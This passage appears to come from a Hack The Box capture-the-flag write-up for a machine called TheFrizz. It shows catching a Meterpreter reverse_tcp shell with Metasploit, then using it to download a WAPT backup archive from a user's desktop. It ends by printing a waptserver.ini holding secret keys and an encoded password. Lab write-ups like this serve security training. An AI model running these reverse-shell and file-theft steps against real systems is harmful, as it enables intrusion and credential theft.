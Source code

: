 Now we need to open metasploit with `exploit/multi/handler` and get our shell, make sure to set the payload to:

```
windows/meterpreter/reverse_tcp
```

Run the `meterpreter.exe` and you will get a shell:

![](images/Pasted%20image%2020250616183827.png)

Now we can download our file:

```
download C:\\Users\\f.frizzle\\Desktop\\wapt-backup-sunday.7z
```

Now once we got our file, we need to unzip it:

```
7z x wapt-backup-sunday.7z
```

We will see this:

```
/AD/rooms/HTB/thefrizz/wapt$ ls
auth_module_ad.py   setuphelpers_linux.py     waptguihelper.pyd
cache               setuphelpers_macos.py     waptlicences.pyd
common.py           setuphelpers.py           waptmessage.exe
conf                setuphelpers_unix.py      waptpackage.py
conf.d              setuphelpers_windows.py   wapt.psproj
COPYING.txt         ssl                       waptpython.exe
db                  templates                 waptpythonw.exe
DLLs                trusted_external_certs    wapt-scanpackages.py
keyfinder.py        unins000.msg              waptself.exe
keys                version-full              waptserver.exe
languages           waptbinaries.sha256       waptservice.exe
lib                 waptconsole.exe.manifest  wapt-signpackages.py
licencing.py        waptcrypto.py             wapttftpserver
log                 wapt-enterprise.ico       wapttftpserver.exe
private             wapt-get.exe              wapttray.exe
__pycache__         wapt-get.exe.manifest     waptutils.py
revision.txt        wapt-get.ini              waptwua
Scripts             wapt-get.ini.tmpl         wgetwads32.exe
setupdevhelpers.py  wapt-get.py               wgetwads64.exe

/AD/rooms/HTB/thefrizz/wapt/conf$ ls
ca-192.168.120.158.crt  require_ssl_auth.conf  waptserver.ini.template
ca-192.168.120.158.pem  uwsgi_params
forward_ssl_auth.conf   waptserver.ini

```

As seen we got a `waptserver.ini` file, let's check it:

```
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
```